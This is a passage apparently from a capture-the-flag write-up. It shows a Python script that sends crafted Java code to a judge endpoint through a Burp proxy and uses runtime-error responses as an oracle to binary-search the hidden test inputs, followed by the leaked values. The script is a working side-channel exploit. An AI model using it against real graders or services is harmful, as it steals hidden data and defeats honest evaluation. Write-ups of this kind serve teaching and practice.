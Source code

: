 ```python
    payload = javainputs.replace("LINE",str(line)).replace("INDEX",str(index)).replace("TEST",str(test))
    burp0_data = {"code": payload}
    a = requests.post(burp0_url, proxies=proxies,headers=burp0_headers, data=burp0_data)
    if "runtime" in a.text:
        return True
    else:
        return False

for i in range(tests):
    low, high = 0, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_inputs(i+1,0,mid):
            low = mid + 1
        else:
            high = mid - 1
    print("source on line: "+str(i+1)+" is "+str(low))
    low, high = 0, 500000
    while low <= high:
        mid = (low + high) // 2
        if islargerthan_inputs(i+1,1,mid):
            low = mid + 1
        else:
            high = mid - 1
    print("sink case on line: "+str(i+1)+" is "+str(low))


```

you can see them here:

```
8
0 2
1 2
300 123
1337 1337
929 1000
1234 9876
11 22
1000 1001
```

Ok, then lets run the dijkstra.py with the graph and precompute the answers.

![](3.png)
